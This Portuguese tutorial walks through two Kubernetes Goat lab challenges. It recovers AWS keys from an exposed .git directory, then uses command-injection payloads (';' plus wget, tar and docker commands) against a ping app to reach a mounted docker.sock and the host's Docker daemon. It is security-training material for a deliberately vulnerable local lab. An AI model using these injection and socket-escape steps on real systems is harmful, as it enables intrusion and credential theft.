# Segurança em kubernetes

Se tratando de DevOps, Docker e Kubernetes se transformaram em ferramentas essenciais para a agilidade e escalabilidade na criação e implementação de aplicações. No entanto, essa flexibilidade vem com um preço: proteção. Pessoas má-intencionadas podem explorar facilmente ambientes mal configurados ou desprotegidos, causando violações de dados, interrupções de serviço e até mesmo perdas financeiras.

É essencial possuir um amplo entendimento das vulnerabilidades e métodos de ataque comuns para assegurar a segurança desses ambientes. O [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat) é uma ferramenta inovadora que simula um ambiente de cluster Kubernetes "vulnerável por design", com vários desafios que permitem a prática e aprendizado sobre segurança.

Neste artigo, vamos explorar a segurança do Docker e Kubernetes usando o Kubernetes Goat como nosso guia. Vamos examinar as vulnerabilidades e ataques mais importantes que podem impactar seus ambientes, e mostrar como o Kubernetes Goat pode ajudá-lo a identificá-los e lidar com eles de forma eficaz.


Setup inicial: 
Inicialmente clonamos o Kubernetes Goat em seu [git oficial](https://github.com/madhuakula/kubernetes-goat).
``` bash
git clone https://github.com/madhuakula/kubernetes-goat
cd kubernetes-goat
```

Para rodar essa ferramenta, precisaremos de um cluster Kubernetes ativo e operacional, lembrando que, de forma alguma, poderemos utilizar um cluster de produção para esses testes. Irei criar um cluster local utilizando o [Kind](https://kind.sigs.k8s.io/). Temos um script pronto para a instalação dentro de `./platforms/kind-setup`, rodaremos com o comando:
```bash
bash setup-kind-cluster-and-goat.sh
```

Assim que o cluster for criado iremos para o diretório raiz do Kubernetes Goat e rodamos o script para a instalação:
``` bash
bash setup-kubernetes-goat.sh
```

Após alguns minutos, damos o comando `kubectl get pods`, com todos os pods no ar, rodaremos um comando para acessar o ambiente, expondo os serviços:
``` bash
bash access-kubernetes-goat.sh
```

Acessando `http://127.0.0.1:1234` podemos ver a tela inicial da ferramenta com os desafios.



## Primeiro desafio:

**"Sensitive keys in codebases"**

O primeiro desafio fala sobre códigos sensíveis em repositórios git. Os desenvolvedores correm o risco de commitar informações sensíveis em seus repositórios git, à medida que avançamos em direção a sistemas CI/CD e GitOps, tendemos a esquecer a identificação de informações confidenciais no código e seus commits, vamos ver se encontramos algo aqui. Esse cenário se encontra em `http://127.0.0.1:1230/` e o desafio é encontrar dados sensíveis.



Ao acessar essa página, podemos utilizar uma ferramenta chamada [Gobuster](https://github.com/OJ/gobuster) para encontrar os diretórios contidos nessa url, essa ferramenta varre a url desejada procurando diretórios e arquivos em uma url, para isso, também será necessário uma `wordlist`, que indica para a ferramenta o que ele deverá procurar, estou utilizando [essa](https://github.com/danielmiessler/SecLists).

Após rodar o comando `gobuster -u http://127.0.0.1:1230 -w common.txt` observamos que existe um diretório .git, utilizando a ferramenta [git-dumper](https://github.com/arthaud/git-dumper) podemos clonar esse repositório:



```bash
git-dumper http://127.0.0.1:1230/.git primeiro-desafio-git
```

ao entrarmos no diretório e procurar os commits com o comando `git log` conseguimos ver todo os logs de commits, após analizar com cuidado, observamos que o commit d7c173ad183c574109cd5c4c648ffe551755b576 adicionou variáveis de ambiente, acessamos esse commit com o comando `git checkout d7c173ad183c574109cd5c4c648ffe551755b576`.



Damos o comando `ls -la`para ver os arquivos e achamos um arquivo .env com dados sensíveis, como "aws_access_key_id", e "aws_secret_access_key"




## Segundo desafio:
**"DIND (docker-in-docker) exploitation"**

A maior parte dos sistemas CI/CD e de pipeline que utilizam o docker e cria contâiners de forma dinâmica, utilizam algo chamado de [DIND](https://medium.com/@gopesh3652/running-docker-in-docker-dind-a-comprehensive-guide-1fe2e328020) - (docker-in-docker). Nesse cenário, iremos explorá-lo para tentar ganhar acesso ao sistema host.

Iremos acessar o endpoint `http://127.0.0.1:1231/



É dada uma aplicação simples, onde poderemos pingar qualquer endereço, porém descobrimos que ela tem uma vulnerabilidade, onde podemos injetar códigos maliciosos utilizando ";" para passarmos múltiplos inputs, como o exemplo:



Conseguimos ver o output do comando `whoami`, agora poderemos analisar todo o sistema e encontrar possíveis brechas e informações.

Através do comando `mount` conseguimos ver que /custom/docker/docker.sock montado, assumindo que ele está montado no host, precisamos conversar com ele para comunicarmos com o socket UNIX



Existem diversas maneiras para isso, desde utilizar o binário oficial do docker, até mesmo utilizando o comando `curl`, utilizaremos a primeira opção. 

Para saber qual binário precisaremos instalar, rodamos o comando `uname -a` para ver a arquitetura e sistema operacional



Após saber que ele é um sistema linux x86_64, conseguimos baixar o binário correto:

```bash
; wget https://download.docker.com/linux/static/stable/x86_64/docker-26.1.2.tgz -O /tmp/docker-26-1-2.tgz
```


Extraímos o binário

``` bash
; tar -xvzf /tmp/docker-26-1-2.tgz -C /tmp/
```



Agora, com o binário extraído podemos ter acesso ao host rodando o comando do docker, passando o socket unix docker.sock como argumento

```bash
; /tmp/docker/docker -H unix:///custom/docker/docker.sock images
```



Só estamos listando os containers, porém, podemos explorar esse comando para ganhar mais acessos e explorar o sistema da forma desejada.
